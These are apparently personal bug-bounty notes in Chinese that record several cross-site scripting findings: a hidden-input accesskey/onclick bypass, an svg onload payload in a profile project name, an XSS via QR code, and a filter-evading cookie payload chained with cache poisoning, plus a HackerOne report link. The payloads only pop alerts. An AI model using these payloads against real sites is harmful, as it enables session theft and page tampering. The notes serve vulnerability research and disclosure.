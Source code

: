 1.隐藏输入中的xss（绕过输入转义）
参数，位于post请求中的listViewHeading=
有效负载：" accesskey=X onclick=alert()
![[Pasted image 20241014211401.png]]
" accesskey=X onclick=alert() xxx
![[Pasted image 20241014211445.png]]
success

2.个人主页的项目名称中可以插入xsspayload
```
post
name="><svg onload="prompt(/xss/);"><!--
```

3.二维码xss
二维码执行js

4.cookie里的xss
cookie: hav=xxx 反射到页面上
payload:cookie:  hav=xss"</sc"ript><sv"g/onloa"d=al"ert"(document.do"main)>
缓存投毒，http响应里的头Cache-Control和Expires表明可以缓存
还发现cookie明文存储在页面js的这个变量window.INITIAL_STATE.system.cookie

厂商通过去除hav反射在页面修复该问题
邦邦的https://hackerone.com/reports/1760213